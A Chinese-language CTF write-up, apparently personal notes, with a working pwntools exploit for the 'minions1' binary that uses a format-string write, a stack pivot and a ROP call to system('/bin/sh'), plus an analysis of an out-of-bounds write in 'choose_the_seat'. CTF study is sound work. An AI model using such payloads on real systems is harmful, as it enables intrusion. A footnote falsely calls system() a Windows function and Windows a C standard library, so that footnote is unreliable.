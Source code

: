 这样就没问题了

后面就是和新生赛差不多的栈迁移:

[^栈迁移]: 知识库里讲的挺详细的(话说那篇文章我在网上也搜到过来着),可以去看看

```python
from pwn import *
#6
#0x601000-0x602000
read_add=0x4007E8
bss_add=0x601C00
learet_add=0x400758
key_add=0x6010A0
sys_add=0x4005C0
hdctf_add=0x6010C0
rdi_add=0x400893
r=process("./minions1")
#r=remote("node5.anna.nssctf.cn",25232)
#gdb.attach(r)
pause()
payload1=b'aaaaaaaa'b'%94c%8$n'+p64(key_add)
#payload1=b'%p %p %p %p %p %p %p %p %p '+b'aaaaaaaa'
r.sendafter("name?\n",payload1)
payload2=b'a'*0x30+p64(bss_add+0x30)+p64(read_add)
r.sendafter(" about you",payload2)
r.sendafter("Minions?",'/bin/sh'.ljust(0x28,"\x00"))#理论上来说这里写点啥都行,反正等下就覆盖掉了

payload3=p64(rdi_add)+p64(hdctf_add)+p64(sys_add)+b'a'*0x18+p64(bss_add-0x8)+p64(learet_add)
r.send(payload3)
r.sendafter("Minions?",b'/bin/sh'.ljust(0x28,b'\x00'))

r.interactive()

```

于是我成功打通了本地,但是线上就是打不通...能够成功调用system,但是system的参数一直出问题....不知道是为什么.

#### 2:choose_the_seat

部分题目代码:

- ```c++
  void __noreturn vuln()
  {
    unsigned int v0; // [rsp+4h] [rbp-Ch] BYREF
    unsigned __int64 v1; // [rsp+8h] [rbp-8h]
  
    v1 = __readfsqword(0x28u);
    puts("Here is the seat from 0 to 9, please choose one.");
    __isoc99_scanf("%d", &v0);
    if ( (int)v0 > 9 )
    {
      printf("There is no such seat");
      exit(1);
    }
    puts("please input your name");
    read(0, &seats[16 * v0], 0x10uLL);
    printf("Your name is ");
    puts(&seats[16 * v0]); //&seats==0x4040A0
    printf("Your seat is %d\n", v0);
    printf("Bye");
    exit(0);
  }
  ```

​	可以看出,由于对输入控制的不严谨,v0可以为负数.所以理论上我们可以对0x4040A0之前的任意地址进行写入(这似乎被称为越界写漏洞).

  ```

[^库函数]: 例如printf,scanf都是常见的stdio.h下的函数,而stdio又是c标准库之一,因此它们都会被包含在glibc中.类似的,system()是Windows库函数,而Windows也是c标准库.所以我们能在使用了libc库的程序里使用system("/bin/sh")来getshell
[^system()]: 除了在Linux下执行/bin/sh以外,它还能干许多其他的事情.比如创建目录,删除文件,启动某个程序之类的↓.
[^*]: 其实当时的问题在于自动登录莫名其妙的失效了,而且我的上一个快照还是一周前的...在重启了好多次以后我还是没能下定决心恢复到上一个快照